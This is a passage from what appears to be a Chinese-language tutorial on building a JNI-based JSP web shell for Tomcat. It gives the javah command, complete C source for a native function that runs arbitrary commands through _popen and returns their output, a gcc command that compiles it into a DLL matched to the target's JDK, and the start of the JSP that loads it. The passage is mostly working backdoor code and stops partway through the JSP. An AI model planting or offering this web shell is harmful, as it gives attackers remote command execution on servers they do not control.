 然后执行
```bash
javah -jni org.apache.jsp.testtomcat_jsp$JniClass
```
生成文件 `org_apache_jsp_testtomcat_jsp_JniClass.h`
为了简化后续C++工程的配置，将 `#include <jni.h>` 修改为 `#include "jni.h"`
![](https://img-blog.csdnimg.cn/8106b1ef12924633b0a00b45d22f9b90.png)

接下来编写命令执行的C语言代码JniClass.c：
```c
#include "jni.h"
#include "org_apache_jsp_testtomcat_jsp_JniClass.h"
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int execmd(const char *cmd, char *result)
{
    char buffer[1024*12];              //定义缓冲区
    FILE *pipe = _popen(cmd, "r"); //打开管道，并执行命令
    if (!pipe)
        return 0; //返回0表示运行失败

    while (!feof(pipe))
    {
        if (fgets(buffer, 128, pipe))
        { //将管道输出到result中
            strcat(result, buffer);
        }
    }
    _pclose(pipe); //关闭管道
    return 1;      //返回1表示运行成功
}
JNIEXPORT jstring JNICALL Java_org_apache_jsp_testtomcat_1jsp_00024JniClass_exec(JNIEnv *env, jobject class_object, jstring jstr)
{

    const char *cstr = (*env)->GetStringUTFChars(env, jstr, NULL);
    char result[1024 * 12] = ""; //定义存放结果的字符串数组
    if (1 == execmd(cstr, result))
    {
       // printf(result);
    }

    char return_messge[100] = "";
    strcat(return_messge, result);
    jstring cmdresult = (*env)->NewStringUTF(env, return_messge);
    //system();

    return cmdresult;
}
```
使用gcc将该c源码编译为dll或者lib（注意jdk版本要与目标机器的jdk保持一致）
```bash
gcc -I "C:\Java\jdk1.8.0_231\include" -I "C:\Java\jdk1.8.0_231\include\win32" --shared JniClass.c -o 1.dll
```
最后在web目录下创建testtomcat.jsp，内容如下：
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    class JniClass {
        public native String exec(String string);
```